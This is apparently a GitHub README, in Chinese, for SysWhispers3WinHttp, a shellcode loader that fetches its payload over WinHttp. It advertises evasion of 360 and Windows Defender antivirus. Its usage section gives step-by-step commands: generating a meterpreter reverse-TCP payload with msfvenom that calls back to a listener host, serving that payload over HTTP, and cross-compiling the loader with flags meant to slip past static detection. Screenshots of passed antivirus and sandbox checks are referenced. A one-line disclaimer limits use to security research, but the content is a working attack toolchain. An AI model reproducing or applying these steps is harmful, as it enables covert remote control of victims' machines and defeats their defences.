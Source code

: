 # SysWhispers3WinHttp
SysWhispers3WinHttp 基于SysWhispers3增添WinHttp分离加载，可免杀360核晶与Defender等杀软。

## 0x00 免责声明：

该项目仅供安全研究使用，禁止使用该项目进行违法操作，否则由使用者承担全部法律及连带责任。

## 0x01 更新日志：
2023/06/06 支持64位GCC编译，增添编译参数绕过静态检测。

## 0x02 使用：

```
// 1. 使用msfvenom生成Shellcode（或使用CobaltStrike生成Stageless之Shellcode）
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.1.110 lport=4444 -f raw -o beacon.bin

// 2. 使用python3开启Web服务（或使用CobaltStrike之Host File功能）
python3 -m http.server

// 3. 修改SysWhispers3WinHttp.c第40行IP地址，使用Linux64位GCC进行交叉编译
x86_64-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls64.c SysWhispers3WinHttp.c -masm=intel -w -s -lwinhttp -O1

// ps. 或修改SysWhispers3WinHttp.c第4行头文件为syscalls.h，修改第40行IP地址，使用Linux32位GCC进行交叉编译
i686-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls.c SysWhispers3WinHttp.c -masm=intel -w -s -lwinhttp -O1
```

## 0x03 演示：

360核晶（2023/06/06更新）
![360](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/b4534cba-2b86-47d7-bcf3-553739e2012b)

Defender（2023/06/06更新）
![WD](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/a134f8bd-922d-4132-af9d-c8eee6b07fc1)

微步云沙箱
![threatbook](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/bfd99aee-6f82-4960-a461-12c1b83b594a)

## 0x04 参考：
https://github.com/klezVirus/SysWhispers3

https://learn.microsoft.com/zh-cn/windows/win32/api/winhttp/nf-winhttp-winhttpconnect
